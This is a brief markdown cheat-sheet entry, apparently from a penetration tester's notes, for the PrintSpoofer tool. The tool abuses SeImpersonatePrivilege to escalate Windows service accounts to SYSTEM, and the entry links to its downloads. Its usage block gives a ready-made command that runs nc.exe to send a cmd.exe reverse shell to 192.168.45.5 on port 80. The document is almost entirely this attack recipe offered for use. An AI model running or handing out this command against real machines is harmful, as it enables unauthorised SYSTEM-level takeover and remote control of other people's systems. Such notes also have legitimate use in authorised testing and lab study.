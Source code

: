 # Name
PrintSpoofer

## Usage
```
# Works on all versions of Server 2016 and Server 2019, as well as every version of Windows 10 from at least 1607 onwards.
# From Local/NETWORK SERVICE to system by abusing SeImpersonatePrivilege
printspoofer64.exe -c "nc.exe -e cmd.exe 192.168.45.5 80"
```

## Source
https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer32.exe
https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe

